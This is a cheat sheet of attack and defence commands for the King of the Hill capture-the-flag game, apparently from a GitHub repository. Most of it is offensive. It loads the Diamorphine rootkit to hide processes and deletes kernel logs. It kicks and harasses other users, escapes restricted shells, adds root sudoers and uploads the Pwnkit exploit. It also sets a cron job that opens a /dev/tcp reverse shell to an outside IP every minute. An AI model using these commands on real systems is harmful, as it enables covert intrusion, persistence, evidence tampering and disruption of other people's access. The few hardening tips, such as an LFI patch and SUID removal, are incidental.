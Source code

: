 
# King of The Hill
KoTH - Attack & defense Tricks

- Using rustscan
- Connecting SSH without tty and hiding the process using rootkit
    - ssh -T user@target.ip -p 1337
        - w
        - who
        - tty
        - ls /dev/pts;
    - ps aux | grep notty
        - git clone git@github.com:m0nad/Diamorphine.git
        - make
        - insmod diamorphine.ko
        - kill -31 <PID>
        - tail -f /var/log/kern.log
        - rm /var/log/kern.log
- Kicking people out of the machine using pkill
    - pkill -9 -t pts/<ID>
    - kill -9 <PID>
- Kicking all users connected in SSH
    - kill `ps aux | grep pts | awk ‘{print $2}’`;
- Kicking all people connected to a given user on SSH
    - pkill -9 -U <user>
- Using ps and grep to search for pts/sshd
    - ps aux | grep sshd
- Trolling your opponent
    - cat /dev/urandom > /dev/pts/<ID> &
    - ./nyancat > /dev/pts/<ID> &
    - ./xpl -n /dev/pts/<ID> “cat /dev/urandom”
    - ./breker.sh <ID>
- Bypass rbash
    - vim
        - :set shell=/bin/bash
        - :shell
- Patch /etc/sudoers
    - vim /etc/sudoers
        - remove everything except: root ALL=(ALL=ALL) ALL 
- Patch SUID
    - Find / -perm /4000 2>/dev/null
    - chmod -s /usr/bin/pkexec
- Removing SSH keys
    - cd ~/.ssh
    - rm id_rsa 
    - rm id_rsa.pub
- LFI Patch
    - <?php include ($_GET['page']); ?>    ------>  <?php include (str_replace(“../”, “”, $_GET['page'])); ?>
- Patch Command Injection
    - remove <?php …………  system(...)  ……… ?>
- Capturing flags using find and grep
    - cd /home; grep -ri thm{ 2>/dev/null
    - cd /var/www; grep -ri thm{ 2>/dev/null
    - cd /root; grep -ri thm{ 2>/dev/null
    - find / -name user.txt 2>/dev/null
    - find / -name flag.txt 2>/dev/null
    - find / -name flag 2>/dev/null
- Adding user with root privilege
    - adduser USER
    - add USER ALL=(ALL:ALL) ALL to /etc/sudoers
- Removing execution permissions form binaries
    - chmod -x /usr/bin/wget
    - chmod -x /usr/bin/curl
    - chmod -x /usr/bin/chattr
- Uploading file using SSH
    - ssh user@target.ip -p1337 “cat Pwnkit” < Pwnkit
- Protect king using while
    - while true; do echo msood > /root/king.txt; chattr +ia /root/king.txt; set -o noclobber /root/king.txt; done &
- Blocking password authentication in ssh
    - PasswordAuthentication no in /etc/ssh/sshd_config
    - service sshd restart
- Using crontab to load a script with a reverse shell every 1 minute
    - echo "/bin/sh -i >& /dev/tcp/10.8.56.2/4444 0>&1" > /tmp/.persistence.sh
    - chmod +x .persistence.sh
    - vim /etc/crontab
        - * * * * * root /tmp/.persistence.sh
